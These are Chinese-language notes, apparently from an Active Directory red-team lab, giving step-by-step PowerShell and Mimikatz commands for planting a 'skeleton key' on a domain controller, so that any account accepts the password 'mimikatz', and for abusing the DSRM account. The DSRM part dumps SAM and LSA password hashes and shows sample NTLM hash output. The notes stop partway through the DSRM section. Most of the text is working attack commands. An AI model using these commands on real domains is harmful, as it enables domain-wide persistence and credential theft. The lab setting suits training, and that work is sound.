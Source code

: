 # 制作万能钥匙
在一台有DA权限的shell里运行下面命令

所有计算机都可以使用密码：```mimikatz```访问

### 方法1
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
### 方法2(推荐)
回到学生机器,创建一个DC的登录session
```
$sess = New-PSSession dcorp-dc.dollarcorp.moneycorp.local
```

把mimikatz加载到指定session
```
 Invoke-Command -FilePath C:\AD\Invoke-Mimikatz.ps1 -Session $sess
```

再次进入DC
```
 Enter-PSSession -Session $sess
```

执行mimikatz，制作万能钥匙
```
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"'
```

开一个学生shell使用下面命令以student370的身份进入主机
```Enter-PSSession –Computername dcorp-std370 –credential dcorp\student370```

# DSRM利用
目录服务还原模式。除了krbtgt服务帐号外，域控上还有个可利用的账户：目录服务还原模式（DSRM）账户，这个密码是在DC安装的时候设置的，所以一般不会被修改

用有DA权限的shell，运行下面命令，dump出DSRM的哈希密码

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc

SAMKey : 33e0913ef3886d77d5873060bcea1cfb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd
```
这里会出现Administrator的哈希(也就是DSRM的密码)：```a102ad5753f4c441e3af31c97fad86fd```

再用下面命令dump出现在Administrator的密码，与上面DSRM的密码进行比较

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
